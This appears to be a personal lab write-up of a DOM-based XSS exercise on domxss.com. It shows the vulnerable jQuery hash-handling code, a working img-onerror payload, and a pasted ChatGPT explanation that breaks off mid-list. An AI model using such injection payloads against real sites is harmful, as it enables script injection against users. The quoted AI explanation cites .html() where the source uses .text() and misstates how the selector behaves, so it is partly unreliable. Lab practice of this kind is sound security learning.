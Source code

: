 ![[Pasted image 20241222011810.png]]

clicking the links

![[Pasted image 20241222011836.png]]

page source
```js
function setMessage(){
 var t=unescape(location.hash.slice(1));
 $("div[id="+t+"]").text("The DOM is now loaded and can be manipulated.");
}
$(document).ready(setMessage  );
$(window).bind("hashchange",setMessage)

```

payload
```js
// <script>d00med()</script> didn't work, then I tried the below paylaod
#<img src=x onerror=d00med()>
```

![[Pasted image 20241222013406.png]]

Unsure if my solution was right, I asked chatgpt to verify and here is what it said.
### What Your Input Does:

Your input URL is:

`http://www.domxss.com/domxss/01_Basics/06_jquery_old_html.html?1460831301#%3Cimg%20src=x%20onerror=d00med()%3E`

1. **Hash Value Extraction**:
	- `location.hash` becomes:
        `#%3Cimg%20src=x%20onerror=d00med()%3E`
        
    - After `slice(1)` to remove the `#`, it becomes:
        `%3Cimg%20src=x%20onerror=d00med()%3E`
        
    - `unescape()` decodes the URL-encoded string:
        `<img src=x onerror=d00med()>`
        
2. **jQuery Selector**:
    - The extracted hash value is directly passed into the jQuery selector:
        `$("div[id=<img src=x onerror=d00med()>]").html("The DOM is now loaded and can be manipulated.");`
        
    - This creates a new `<div>` element with the `id` `<img src=x onerror=d00med()>`.

3. **`html()` Method**:
    
    - The `.html()` method sets the HTML content of the target `div`. However, because the `id` includes an injected `<img>` tag with an `onerror` attribute, the browser executes the `onerror` handler (`d00med()`).

4. **Execution of `d00med()`**:
    